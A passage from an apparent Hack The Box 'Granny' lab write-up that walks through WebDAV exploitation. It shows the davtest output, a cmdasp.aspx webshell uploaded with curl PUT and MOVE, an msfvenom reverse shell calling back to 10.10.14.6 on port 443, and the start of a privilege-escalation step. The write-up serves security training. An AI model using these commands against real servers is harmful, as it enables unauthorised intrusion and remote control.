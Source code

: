 ```ruby
PUT File: http://10.10.10.15/DavTestDir_q8mdd1Gibua/davtest_q8mdd1Gibua.jhtml
PUT File: http://10.10.10.15/DavTestDir_q8mdd1Gibua/davtest_q8mdd1Gibua.txt
Executes: http://10.10.10.15/DavTestDir_q8mdd1Gibua/davtest_q8mdd1Gibua.html
Executes: http://10.10.10.15/DavTestDir_q8mdd1Gibua/davtest_q8mdd1Gibua.txt
```

So my idea was to upload an .exe file and then search for it with the url pointing to it and then run it. And I download this exploit → https://github.com/tennc/webshell/blob/master/fuzzdb-webshell/asp/cmdasp.aspx

```ruby
┌──(kali㉿kali)-[~/HTB/granny]
└─$ curl -s -X PUT http://10.10.10.15/cmdasp.txt -d @cmdasp.txt

┌──(kali㉿kali)-[~/HTB/granny]
└─$ curl -s -X MOVE -H "Destination:http://10.10.10.15/cmdasp.aspx" http://10.10.10.15/cmdasp.txt
```

I use this command to download and execute the reverse shell I did with `msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.6 LPORT=443 -f exe > reverse.exe` -> `\\10.10.14.6\\smbFolder\reverse.exe -e cmd 10.10.14.6 443`

![Untitled](/HTB/web-granny.png)

So before I hit the **execute** button I listened on port 443 and then hit it and got the reverse shell. We are in 😇

```ruby
C:\WINDOWS\Temp\privesc> whoami
 whoami
nt authority\network service
```

## Escalation of privileges

The first thing I always do in windows is to see what user we are and if we can access any input flag. In this case I could not access any flag, so I had to escalate privileges. The next thing I did was to see the permissions I had.

```ruby
C:\>whoami /priv
whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeAuditPrivilege              Generate security audits                  Disabled
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled
SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
**SeImpersonatePrivilege        Impersonate a client after authentication Enabled  -> JuiciPotato**
SeCreateGlobalPrivilege       Create global objects                     Enabled
```

